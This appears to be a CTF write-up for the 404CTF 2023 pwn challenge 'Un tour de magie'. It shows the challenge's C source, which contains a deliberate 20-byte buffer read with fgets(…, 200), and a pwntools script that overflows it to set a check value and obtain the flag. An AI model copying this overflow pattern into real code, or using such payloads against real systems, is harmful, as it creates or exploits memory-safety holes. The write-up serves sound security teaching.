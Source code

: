 ```yaml
---
title: CTFs | 404CTF2023 | Pwn | Un tour de magie
author: Stillwolfing
date: 2023-06-14
categories: ['CTFs', '404CTF2023', 'Pwn']
tags: ['CTFs', '404CTF2023', 'Pwn']
permalink: /CTFs/404CTF2023/pwn/un_tour_de_magie
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/pwn/un_tour_de_magie/context.png)

We are given the file tour-de-magie.zip

Inside it, there is the main.wasm file which is a WebAssembly file.

A WebAssembly (Wasm) file is a binary format designed for efficient and safe execution in web browsers. It allows developers to run code written in languages like C, C++, Rust, and others on the web. Wasm files are compact and can be loaded and executed quickly, making them suitable for web applications that require high performance.

We can execute it using the command: ```wasmtime main.wasm```

We are given the code main.c which is the code of the wasm file:

```c
#include<stdlib.h>
#include<stdio.h>

int main() {
    int* check = malloc(sizeof(int));
    *check = 0xcb0fcb0f;
    puts("Alors, t'es un magicien ?");
    char input[20];
    fgets(input, 200, stdin);
    
	if(*check == 0xcb0fcb0f) {
		puts("Apparemment non...");
		exit(0);
	}
    if(*check != 0xcb0fcb0f && *check != 0x50bada55) {
		puts("Pas mal, mais il en faut plus pour m'impressionner !");
		exit(0);
	}
	if(*check == 0x50bada55) {
		puts("Wow ! Respect ! Quelles paroles enchantantes ! Voilà ta récompense...");
		FILE* f = fopen("flag.txt", "r");
		if(f == NULL) {
			puts("Erreur lors de l'ouverture du flag, contactez un administrateur !");
			exit(1);
		}
		char c;
		while((c = fgetc(f)) != -1) {
			putchar(c);
		}
		fclose(f);
	}
}
```

It looks like we have to do a buffer overflow to override the value of the check variable. The input buffer is 20 bytes and the fgets take 200 bytes.

We have to change its value to 0x50bada55.

Let's try to enter characters until we modify the value of check.

![overflow](/assets/img/CTFs/404CTF2023/pwn/un_tour_de_magie/overflow.png)

We are printed some of our 'A's (41). Let's modify the last four characters:

![Bs](/assets/img/CTFs/404CTF2023/pwn/un_tour_de_magie/Bs.png)

It looks like the 17th to 20th character are the check value.

Payload: payload = b'A' * 16 + b'\x55\xda\xba\x50' + b'AAA'

Here is my implementation:

```python
import pwn

conn = pwn.remote('challenges.404ctf.fr', 30274)

rep = conn.recvuntil(b'magicien ?\n')
print(rep)

payload = b'A'*16+ b'\x55\xda\xba\x50' + b'A'*3
print(payload)

conn.sendline(payload)
print(conn.recvline())
print(conn.recvline())
```

We get the flag 🎉 ! I hope you like this pwn.
